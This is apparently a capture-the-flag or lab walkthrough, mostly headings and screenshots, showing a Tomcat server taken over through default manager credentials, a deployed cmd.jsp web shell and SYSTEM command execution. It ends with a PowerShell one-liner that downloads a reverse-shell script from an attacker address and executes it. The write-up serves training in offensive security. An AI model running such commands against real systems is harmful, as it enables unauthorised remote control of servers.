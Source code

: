 # 10 - Tomcat


# Index
![](vx_images/5193037766403.png)

# Manager App button prompts us for credentials

![](vx_images/4676847555495.png)


# /manager/html Brute-force with default credentials 
![](vx_images/4356854208880.png)


# Windows Server 2012 R2
![](vx_images/1386965901246.png)

# [cmd.jsp](https://github.com/SecurityRiskAdvisors/cmd.jsp)

![](vx_images/3716831859650.png)

![](vx_images/1831961546292.png)

Select *cmd.war* and hit *Deploy*. *.war* files are basically zipped java servlets 

Once it's deployed click /cmd on application list
![](vx_images/3349660092770.png)


![](vx_images/4686908907114.png)

New application doesn't have a default page we know that war file includes our cmd.jsp


# cmd/cmd.jsp

![](vx_images/434619777300.png)


# Code execution as system
![](vx_images/2029451871440.png)



# Download a reverse shell  and execute it
```powershell
powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse.ps1')
```

![](vx_images/1326502502980.png)

